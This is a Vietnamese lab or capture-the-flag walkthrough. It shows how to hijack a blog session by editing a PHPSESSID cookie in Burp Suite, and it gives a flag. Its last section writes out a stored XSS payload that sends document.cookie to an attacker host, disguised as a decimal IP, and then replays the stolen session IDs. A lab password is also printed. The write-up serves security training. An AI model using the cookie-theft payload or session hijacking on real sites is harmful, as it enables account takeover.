 - Nếu đã làm lab <strong>Club status</strong> thì chỉnh giá trị trường PHPSESSID trong Burpsuite ```Options/Sessions->Open cookie jar (phần Cookie jar)``` thành <strong><code>...</code></strong> sau đó reload lại trong blog để hiện Flag <strong>OrganicShantyAbsent505</strong><br/>
- Nếu chưa làm lab <strong>Club status</strong> thì: <br/>
<code>- Mở Burpsuite (Application/Kali Linux/Top 10 Security Tools/burpsuite) -> Tắt Intercept (Intercrept is off) ở tab Proxy</code><br/>
<code>- Mở trình duyệt Iceweasel -> Edit -> Preferences -> chọn tab Advanced -> chọn tab Network -> Settings -> Manual proxy configuration (HTTP Proxy: 127.0.0.1 Port 8080)</code><br/>
<code>- Duyệt 192.168.100.210/index.php (tab Blog bị mở không click được) -> Click vào Sign In</code><br/>
<code>- Quay lại burpsuite -> chọn tab Options -> chọn tab Sessions -> Chọn Use cookies from Burp's cookie jar (trong phần Session Handling Rules) -> Edit -> chọn tab Scope -> tích chọn Proxy (use with caution), bỏ chọn Scanner, Spider -> OK</code><br/>
<code>- Kéo xuống phần Cookie jar -> chọn Open cookie jar (Set value = 1 trước đã) -> chọn dòng có name là PHPSESSID -> Edit cookie -> chỉnh giá trị trường value thành ... -> OK -> close </code><br/>
```(Chú ý,trường value sẽ được thay đổi với mỗi lần khởi động lại linux nên value bên trên có thể sai,nếu value trên sai thì có thể làm theo cách dưới)``` <br/>
<code>- Quay lại trình duyệt Iceweasel reload lại trang sẽ thấy tab Blog sáng lên</code><br/>
<code>- Ấn vào tab BLog</code><br/>
Flag <strong>OrganicShantyAbsent505</strong>


-<strong>Cách lấy value session của người dùng.</strong> <br/>
<code>-Nhập: echo "$.get('http://192.168.100.200?cookie=' +document.cookie);" > .j (vào terminal)</code> <br/>
<code>-Mở server để lắng nghe: sudo python -m SimpleHTTPServer 80 (Terminal) (pass:COS30015user)</code> <br/>
<code>-Nhập </code> [<script src=//3232261320/.j>](test5) <strong>(phần html ẩn script, đọc kỹ readme để thấy)</strong> <code>vào ô comment của New Feature: REST API - Documents và submit.(3232261320 là số thập phân của 192.168.100.200)</code> <br/>
<code>-Đợi một lúc và chúng ta sẽ thấy một số session id nổi lên,thử hết chúng để lấy flag.</code> <br/>
